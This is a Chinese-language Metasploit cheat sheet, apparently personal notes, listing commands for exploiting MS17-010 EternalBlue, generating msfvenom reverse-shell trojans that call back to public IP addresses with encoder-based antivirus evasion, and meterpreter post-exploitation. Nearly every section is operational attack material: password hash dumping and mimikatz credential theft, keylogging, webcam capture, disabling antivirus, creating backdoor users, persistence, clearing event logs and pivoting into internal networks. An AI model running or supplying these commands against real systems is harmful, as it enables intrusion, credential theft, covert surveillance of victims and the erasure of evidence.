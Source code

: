 ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611332155040-dfca6619-7b6a-451d-ab4f-c4e48841d93c.png#align=left&display=inline&height=485&originHeight=647&originWidth=1072&size=277244&status=done&style=none&width=804)
<a name="iURLj"></a>
## 常规操作
进入框架：msfconsole<br />使用search命令查找相关漏洞： search  ms17-010<br />使用use进入模块:  use exploit/windows/smb/ms17_010_eternalblue   <br />使用info查看模块信息： info <br />设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp<br />查看模块需要配置的参数：show options<br />设置参数：set  RHOST  192.168.125.138<br />攻击：exploit /  run <br /> 
<a name="24Sya"></a>
## 打exp时候设置的正反向连接
windows/x64/meterpreter/bind_tcp       #正向连接<br />windows/ x64/meterpreter/reverse_tcp    #反向连接，常用<br />windows/ x64/meterpreter/reverse_http   #通过监听80端口反向连接<br />windows/ x64/meterpreter/reverse_https  #通过监听443端口反向连接<br /> 
<a name="xIhJ6"></a>
## Auxiliary和Exploit模块
我的理解就是poc，运行之后有+号，证明存在漏洞<br />可以设置一个段来进行测试  例如输入：set  RHOSTS  192.168.125.125-129.168.125.140

我们要想从 meterpreter 退出到MSF框架，输入：background<br />输入： sessions  -l       查看我们获得的shell，前面有id<br />输入： sessions  -i  1     即可切换到id为1的shell<br />输入:  shell             即可进入到window的cmd
<a name="jrXzl"></a>
## Metreper的shell操作
sysinfo             #查看目标主机系统信息<br />run scraper         #查看目标主机详细信息<br />run hashdump        #导出密码的哈希<br />load kiwi           #加载mimikatz<br />ps                  #查看目标主机进程信息<br />pwd                 #查看目标当前目录(windows)<br />getlwd              #查看目标当前目录(Linux)<br />search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件<br />download  e:\test.txt /root          #将目标机的e:\test.txt文件下载到/root目录下<br />upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下<br />getpid              #查看当前Meterpreter Shell的进程PID<br />migrate 1384        #将当前Meterpreter Shell的进程迁移到PID为1384的进程上<br />idletime            #查看主机运行时间<br />getuid              #查看获取的当前权限<br />getsystem           #提权,获得的当前用户是administrator才能成功<br />run  killav         #关闭杀毒软件<br />screenshot          #截图<br />webcam_list         #查看目标主机的摄像头<br />webcam_snap         #拍照<br />webcam_stream       #开视频<br />execute  参数  -f 可执行文件   #执行可执行程序<br />run getgui -u hack -p 123    #创建hack用户，密码为123<br />run getgui -e                #开启远程桌面<br />keyscan_start                #开启键盘记录功能<br />keyscan_dump                 #显示捕捉到的键盘记录信息<br />keyscan_stop                 #停止键盘记录功能<br />uictl  disable  keyboard     #禁止目标使用键盘<br />uictl  enable   keyboard     #允许目标使用键盘<br />uictl  disable  mouse        #禁止目标使用鼠标<br />uictl  enable   mouse        #允许目标使用鼠标<br />load                         #使用扩展库<br />run                                    #使用扩展库<br /> <br />run persistence -X -i 5 -p 8888 -r 192.168.10.27        #反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀<br />portfwd add -l 3389 -r 192.168.11.13 -p 3389    #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址<br />clearev                       #清除日志<br />进行迁移 migrate <br />
<a name="RVwc3"></a>
## msf制作反弹木马
_python_ -m SimpleHTTPServer 8080<br /> <br /> 在生成payload时可直接使用如下命令，生成的payload会直接注入到指定进程中。<br />msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2LPORT=3333 -e x86/shikata_ga_nai -b "\x00" -i 5-a x86 --platform win PrependMigrate=truePrependMigrateProc=svchost.exe -f exe -o shell.exe<br /> <br />msfvenom -p windows/meterpreter/reverse_tcp lhost= 47.115.37.135 lport=1234 -f exe -o test.exe  （windows）<br />msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=49.235.50.54 lport=8800 -f elf >taobao.elf  （linux）<br /> <br />msfvenom -p windows/meterpreter/reverse_tcp lhost=101.36.104.49 lport=8800 -f c<br /> <br />正向shell  shell_bind_tcp<br />然后msf使用exploit/multi/handler模块设置监听<br />msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp<br /> <br /> 
<a name="4eK0e"></a>
## Msf的socks5代理
首先要获得内网网段meterpreter > run get_local_subnets<br /> 一、meterpreter > run autoroute -s 172.17.0.0/24 添加路由<br />run autoroute -p 打印路由<br />二、 退出meterpreter之后route add 172.17.0.0 255.255.255.0 1<br />                          route add 0.0.0.0/24 1添加任意路由<br /> <br />-----------------------------这个时候MSF已经可以进行内网探测了---------------<br />search socks 查找代理<br />#使用socks5代理<br />use auxiliary/server/socks5<br />set SRVHOST 0.0.0.0<br />set SRVPORT 1080<br />set USERNAME root<br />set PASSWORD Password@<br />run<br />kali中修改/etc/proxychains.conf

然后执行命令前加上 proxychains命令<br />#然后就可以使用其他命令了，比如nmap<br />proxychains4 nmap -p 1-10000 -Pn -sT x.x.x.x     #在打开其他程序前加上proxychains<br /> 
<a name="brseO"></a>
## msf抓mimikatz密码
meterpreter > load mimikatz<br />meterpreter > mimikatz_command -f samdump::hashes<br />meterpreter > mimikatz_command -f sekurlsa::searchPasswords
<a name="KreBc"></a>
## Post 后渗透模块
run post/windows/manage/migrate           #自动进程迁移<br />run post/windows/gather/checkvm           #查看目标主机是否运行在虚拟机上<br />run post/windows/manage/killav            #关闭杀毒软件<br />run post/windows/manage/enable_rdp        #开启远程桌面服务<br />run post/windows/manage/autoroute         #查看路由信息<br />run post/windows/gather/enum_logged_on_users   #列举当前登录的用户<br />run post/windows/gather/enum_applications       #列举应用程序<br />run post/windows/gather/credentials/windows_autologin #抓取自动登录的用户名和密码<br />run post/windows/gather/smart_hashdump               #dump出所有用户的hash<br />run post/multi/recon/local_exploit_suggester       如果是获取shell后权限是比较低的，post模块中有一个检测目标系统补丁然后会给出相应exp提权的功能<br /> 

 
<a name="q8M9L"></a>
## Msf端口转发
meterpreter > portfwd add –l 3389 –p 3389 –r [目标内网ip地址]<br /> -p也是目标机器的端口<br />  -l才是本地端口<br /> <br />meterpreter > portfwd delete –l 3389 –p 3389 –r 172.16.194.191<br /> <br />portfwd list<br /> <br /> <br />msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0  //默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0
